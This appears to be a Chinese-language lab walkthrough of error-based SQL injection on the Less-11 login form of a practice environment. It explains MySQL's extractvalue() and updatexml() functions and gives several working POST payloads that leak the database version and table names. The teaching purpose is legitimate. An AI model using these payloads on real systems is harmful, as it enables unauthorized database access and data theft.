









报错注入
# SQL 注入之报错注入
本篇使用报错注入。
注意 ：报错函数的使用中，第二个参数如果来自于查询语句，都是需要用小括号包裹起来的。
#使用 extractvalue(1, (select xxx)) |
# 注入步骤
# 设置代理
还是 Less-11，我们挂上 BurpSuit 代理，然后 Send To Reapeater。

报错注入常使用的函数如下：
①extractvalue (): 从目标 XML 中返回包含所查询值的字符串。
例子：extractvalue (XML_document, XPath_string);
第一个参数 ：XML_documentshi String 格式，为 XML 文档对象的名称。在报错注入中可以随意指定，比如 1 即可。
第二个参数 ：XPath_string (Xpath 格式的字符串)。在报错注入中由于就是利用这个点来泄露信息，所以重点构造语句放在这个第二个参数里。
concat ()：返回结果为连接参数产生的字符串。
②updatexml (): 更新 XML 信息
例子：updatexml (XML_document, XPath_string, new_value);
第一个参数 ：XML_document 是 String 格式，为 XML 文档对象的名称。在报错注入中可以随意指定，比如 1 即可。
第二个参数 ：XPath_string (XPATH 格式的字符串)。在报错注入中由于就是利用这个点来泄露信息，所以重点构造语句放在这个第二个参数里。
第三个参数 ：new_value, String 格式， 替换查找到的符合条件的数据。在报错注入中可以随意指定，比如 1 即可。
# 确定注入类型和列数
通过单引号注入和 order by n 来确定注入类型和查询列数。

# 使用指定报错函数
那么我们就可构造：
extractvalue (1, XPATH_string)，其中 XPATH_string 为 (select version ())
uname=1' union select 1, extractvalue(1, (select version())) --+&passwd=123456&submit=Submit |

可以看到版本号被截断，信息不全。我们尝试调 concat () 函数使用 0x7e 字符拼接：
uname=1' union select 1, extractvalue(1, concat(0x7e, (select version()))) --+&passwd=123456&submit=Submit |

这里分割字符串可以换成 %，分割字符串的选择比较看运气，有时候后台会校验，所以多用 ASCII 来表示。比如波浪线的 ASCII 为 0x7e

# 泄露数据库信息
准备泄露数据库的表名
uname=1' union select 1, extractvalue(1, concat('%', (select table_name from information_schema.tables where table_schema=database()))) --+&passwd=123456&submit=Submit |
但是报了错， Subquery returns more than 1 row ，说明最后查询的 select 的列数超过了一列。

我们需要使用 limit 0,1 限制一列输出

或者使用 group_concat 拼接成一列

同理，也使用 updatexml 进行报错注入
构造时，因为我们关键是为了调用 updatexml 函数和使用 第二个参数 进行内容输出，因此第一个参数和第三个参数都是 **“无用”** 的，设置成 1 即可。
uname=1' union select 1, updatexml(1, concat('%', (select group_concat(table_name) from information_schema.tables where table_schema=database())),1) --+&passwd=123456&submit=Submit |

至此，报错注入演示完毕。